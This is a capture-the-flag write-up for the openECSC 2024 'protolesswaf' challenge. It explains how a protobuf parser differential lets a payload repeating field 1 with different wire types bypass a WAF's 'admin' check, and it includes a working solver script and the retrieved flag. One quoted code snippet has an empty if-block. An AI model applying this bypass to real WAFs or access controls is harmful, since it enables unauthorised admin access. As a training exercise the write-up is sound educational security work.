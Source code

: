 # protolesswaf

## Description

```
I found this cool parser for protobuf that does not require a .proto file. I'm using it in a WAF to prevent admin access to my server, I hope it works as expected.

Site: http://protolesswaf.challs.open.ecsc2024.it
```

## Provided Files

- `challenge.zip`

## Solve Process

When looking at the protobuf parser function, we can observe that the first two functions seem to be correctly implemented.

```py
def parse_field_number_and_type(byte):
    field_number = byte >> 3
    wire_type = byte & 0x07
    return field_number, wire_type


def parse_varint_field(data):
    result = 0
    shift = 0
    length = 0
    for byte in data:
        length += 1
        result |= (byte & 0x7F) << shift
        if not (byte & 0x80):
            return (length, result)
        shift += 7
    raise ValueError("Malformed varint")
```

But when looking at the parse_message function we can see that somethings off

```py
    # --- snip ---

    fields = {}
    while buffer:
        [tag_len, tag] = parse_varint_field(buffer)

        field_number, wire_type = parse_field_number_and_type(tag)

        buffer = buffer[tag_len:]

        # --- snip ---

        if wire_type == 0:  # Varint
            [value_len, value] = parse_varint_field(buffer)
            if field_number not in fields or fields[field_number]["type"] == "varint":
                fields[field_number] = {"type": "varint", "value": value}
            buffer = buffer[value_len:]

        # --- snip ---

        elif wire_type == 2:  # Length-delimited
            [length_len, length] = parse_varint_field(buffer)
            value = buffer[length_len : length_len + length]
            if (
                field_number not in fields
                or fields[field_number]["type"] == "length-delimited"
            ):
                fields[field_number] = {
                    "type": "length-delimited",
                    "value": value,
                }
            buffer = buffer[length_len + length :]

        else:
            raise ValueError(f"Unsupported wire type: {wire_type}")

    return fields
```

So basically it will always overwrite if the field number is either not present or the wire-type matches.

The server part of the WAF parses the username using strictly the fields id, which is a hint to overwriting the previous value

```py
# --- snip ---
try:
        gf = parse_message(bytes(bytearray.fromhex(protobuf)))
    except:
        return "Invalid protobuf message: " + protobuf

    if 1 not in gf:
        return "Please provide a username"
    username = gf[1]["value"]
    if gf[1]["type"] == 'length-delimited':
            
    if username is None:
        return "Please provide a username"

    if username == b"admin":
        return "Cannot be admin"

    return requests.get(f"http://{SERVER_HOST}/get-flag?protobuf=" + protobuf).text
```

While the server part will look for the username field

```py
# --- snip ---
try:
        gf = app_pb2.GetFlag()
        gf.ParseFromString(bytes(bytearray.fromhex(protobuf)))
    except:
        return "Invalid protobuf message: " + protobuf

    username = gf.username
    if username is None or username == "":
        return "Please provide a username"

    if username == "admin":
        return (
            "Hello, " + username + "! You are admin. The flag is: " + os.environ["FLAG"]
        )

    return "Hello, " + username + "! You are not admin."
```

The server always expects this `.proto` spec

```t
syntax = "proto3";

package program;

message GetFlag {
  string username = 1;
}
```

So lets craft a new payload that we can send to the server and effectively bypass the WAF.

This payload will need to have two entries using the same field id, but different wire types.

```
0x08 - is the tag for the user field. (Field ID 1, wire type 0)
0x01 - is the varint representation of the value 1 for the user field.
0x0A - is the tag for the username field. (Field ID 1, wire type 2)
0x05 - is the length of the string "admin".
'a' 'd' 'm' 'i' 'n' - are the ASCII values of the characters in the string "admin".
```

Based on this we can craft a nifty python solver for this, which looks like the following

```py
import requests
from protoless import parse_message

# to hex
protobuf_bytes = bytearray(b'\x08\x01\x0A\x05admin')
protobuf = protobuf_bytes.hex()

# send it
response = requests.get("http://protolesswaf.challs.open.ecsc2024.it/get-flag", params={"protobuf": protobuf})
print(response.text)
```

And after running this we get

```bash
~ ❯ python exploit.py 
Hello, admin! You are admin. The flag is: openECSC{trust_the_proto_not_the_user}
```

And that is a solve.
